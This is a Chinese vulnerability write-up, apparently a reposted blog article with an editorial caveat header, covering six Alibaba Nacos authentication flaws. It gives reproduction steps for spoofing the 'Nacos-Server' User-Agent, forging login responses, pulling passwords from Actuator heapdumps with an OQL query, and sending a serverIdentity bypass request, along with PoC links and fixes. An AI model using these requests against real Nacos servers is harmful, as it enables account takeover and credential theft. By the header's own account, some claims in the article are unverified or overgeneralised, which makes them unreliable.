# 那些年我们一起追过的 Nacos

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：各auth开关/默认key/Actuator端点暴露条件独立，重置密码需查实际请求权限
- 证据范围：六节多为截图，B段仅替换403响应不证明JWT后端成功；D/E是否独立漏洞缺根因

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Nacos原生外部Redis存储说法需证实，Raft不是数据库类型
- SpringBoot并不自动泄露全部Actuator端点，Nacos*范围错误泛化
- 查heapdump password条目不保证是可用Nacos明文密码；仅用户名不能登录
- 修复建议只改token key无法修serverIdentity共享值，需要分别配置
- TrafficReviseFilter不是完整AuthFilter证明；密码重置是有状态影响

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/OWUNgUpz1YHSum78mmHtRA)

**基本介绍**  

Nacos 是一个用于动态服务发现、配置管理和服务治理的开源平台，由阿里巴巴公司贡献。Nacos 提供了基于 DNS 和 HTTP 的服务发现能力，支持多种注册中心和数据存储方式，包括自身内置的 Raft 协议和外部的 MySQL、Redis 等数据存储

**功能模块**

Nacos 主要包括以下几个模块：

*   注册中心：负责服务注册和发现，提供高可用、可扩展、动态化的服务注册与发现能力。  
    
*   配置中心：提供统一的配置管理平台，可以动态地对服务进行配置管理和发布，支持灰度发布和版本管理等功能。  
    
*   服务管理：提供服务健康状态检查、流量管理等功能，支持服务降级、容错处理等机制，保证了系统的高可用性和稳定性。
    
*   命名空间：提供了多租户的支持，可以在同一个集群中为不同的应用程序创建不同的命名空间来隔离彼此。  
    
*   权限管理：提供了基于角色的权限管理机制，可以实现精细化的权限控制，保证了服务的安全性和可控性。  
    

Nacos 可以广泛应用于微服务架构、云原生应用、DevOps 等场景，为企业级应用提供了一套完整的服务发现和治理方案。  

**追逐旅程  
**

**A、Alibaba Nacos 任意用户创建**

#### 影响范围

Nacos <= 2.0.0-ALPHA.1

#### 漏洞类型

权限认证绕过

#### 环境搭建

下载安装文件：

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1



之后执行以下命令启动环境：

```
./startup.sh -m standalone

```



之后访问 http://your-ip:8848/nacos，默认账号密码为：nacos/nacos



#### 漏洞复现

Step 1: 查看用户列表

```
http://192.168.174.236:8848/nacos/v1/auth/users?pageNo=1&pageSize=1

```



Step 2：添加用户 Al1ex

```
http://your-ip:8848/nacos/v1/auth/users
POST:
Nacos-Server
.......
username=Al1ex&password=Al1ex

```



Step 3: 登录测试



成功登录：



#### 漏洞分析

Nacos-Server 是用来进行服务间的通信的白名单，比如服务 A 要访问服务 B，如何知道服务 A 是服务，只需要在服务 A 访问服务 B 的时候 UA 上写成 Nacos-Server 即可，所以当我们 UA 恶意改为 Nacos-Server 的时候，就会被误以为是服务间的通信，因此在白名单当中从而绕过认证，下面我们来看一下关键的处理逻辑位置 TrafficReviseFilter.java 中的 doFilter 的设计，在这里可以看到当接收到其他节点服务的请求时应该被 pass：



关键的判断逻辑如下：

```
        if (StringUtils.startsWith(agent, Constants.NACOS_SERVER_HEADER)) {
            filterChain.doFilter(req, resp);
            return;
        }

```

之后对 Constants.NACOS_SERVER_HEADER 进行跟踪，之后确定为 Nacos-Server：



#### 参考链接

https://github.com/alibaba/nacos/issues/4593

**B、Alibab Nacos 未授权登录后台**  

#### 影响范围

Nacos <= 2.1.0 version

#### 漏洞说明

Nacos 使用了默认的 JWT key 导致的未授权访问漏洞，通过该漏洞攻击者可以绕过用户名和密码验证直接登录到 nacos 用户后台

#### 漏洞复现

Step 1：直接访问 Nacos 网站，填写任意用户名密码并使用 Burpsuite 抓包



Step 2：之后拦截回显数据包，回显数据包如下



Step 3：修改回显数据包状态 403 为 200 并修改回显数据信息



Step 4：释放数据包后成功登录



**漏洞 POC**

https://github.com/Al1ex/Alibab-Nacos-Unauthorized-Login



**C、Alibab Nacos 账号密码获取**

#### 影响范围

Alibab Nacos *

#### 漏洞概述

SpringBoot 框架下拥有一个 Actuator 用来提供对应用系统进行自省和监控的功能模块，借助于 Actuator 开发者可以很方便地对应用系统某些监控指标进行查看、统计等，在 Actuator 启用的情况下如果没有做好相关权限控制，非法用户可通过访问默认的执行器端点 (endpoints) 来获取应用系统中的监控信息，其中 Spring Boot 1.x 版本默认在 Url 根目录下，Spring Boot 2.x 版本端点移动到 / actuator / 路径

Alibab Nacos 如果是在 sping boot 框架下搭建，那么将会继承 spring boot 本身带有的信息泄露漏洞，攻击者可以通过此漏洞获取 Alibab Nacos 账号密码

#### 漏洞复现

Step 1：Nacos 继承自 Spring Boot 的目录如下：

```
/nacos/actuator
/nacos/actuator/auditevents
/nacos/actuator/beans
/nacos/actuator/caches
/nacos/actuator/conditions
/nacos/actuator/configprops
/nacos/actuator/env
/nacos/actuator/health
/nacos/actuator/info
/nacos/actuator/httptrace
/nacos/actuator/mappings  
/nacos/actuator/metrics
/nacos/actuator/scheduledtasks
/nacos/actuator/loggers
/nacos/actuator/threaddump  
/nacos/actuator/prometheus
/nacos/actuator/heapdump

```

Step 2：访问 / env 接口确定漏洞是否存在



Step 3：调用 / heapdump 接口下载 heapdump 文件



Step 4：使用 MemoryAnalyzer(https://www.eclipse.org/mat/downloads.php) 内存查看工具分析 headdump



Step 5：执行以下 OQL 语句获得密码

```
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))

```



Step 6：如果可以获取到用户名那边就可以直接登录

http://x.x.x.x/nacos/v1/auth/users?pageNo=1&pageSize=1



**D、Alibaba Nacos 注册用户枚举**

#### 影响范围

Nacos < 2.2.0 

#### 漏洞类型

权限认证绕过

#### 利用条件

影响范围应用

#### 漏洞概述

Alibaba Nacos 注册用户枚举

#### 环境搭建

下载安装文件：

https://github.com/alibaba/nacos/releases



之后执行以下命令启动环境：

```
./startup.sh -m standalone

```



之后访问 http://your-ip:8848/nacos，默认账号密码为：nacos/nacos



#### 漏洞复现

查看用户列表

```
http://192.168.174.236:8848/nacos/v1/auth/users?pageNo=1&pageSize=9

```



#### 安全建议

升级到 2.2.0 版本之后



**E、Alibaba Nacos 任意用户密码重置**

#### 影响范围

Nacos <= 2.2.0

#### 漏洞类型

任意用户密码重置

#### 漏洞概述

Alibaba Nacos 任意用户密码重置

#### 环境搭建

下载安装文件：

https://github.com/alibaba/nacos



之后执行以下命令启动环境：



之后访问 http://your-ip:8848/nacos，默认账号密码为：nacos/nacos



#### 漏洞复现

Step 1：获取用户名



Step 2：发送一下请求数据包重置密码

POC：https://github.com/Al1ex/Alibab-Nacos-Unauthorized-Reset-PWD



Step 3：登录



**F、Alibaba Nacos ServerIdentity 权限绕过**

#### 影响范围

Nacos <= 2.2.0

#### 漏洞概述

Nacos 能让您从微服务平台建设的视角管理数据中心的所有服务及元数据，包括管理服务的描述、生命周期、服务的静态依赖分析、服务的健康状态、服务的流量管理、路由及安全策略。Nacos 平台在 Header 中添加 serverIdentity: security 能直接绕过身份验证查看用户列表

#### 漏洞复现

使用 POC 和 serverIdentity: security 查看当前用户名和密码

```http
GET /nacos/v1/auth/users?pageNo=1&pageSize=9&search=accurate&accessToken= HTTP/1.1
Host: \{\{Hostname\}\}
User-Agent: Mozilla/5.0 
Accept-Encoding: gzip, deflate 
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Wed, 15 Feb 2023 10:45:10 GMT
serverIdentity: security

```



#### 安全建议

1、应用切换内网

2、更新到最新版本：https://github.com/alibaba/nacos/releases/tag/2.2.0.1

3、更改 application.properties 文件中 token.secret.key 默认值具体更改方法可参考：https://nacos.io/zh-cn/docs/v2/guide/user/auth.html

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
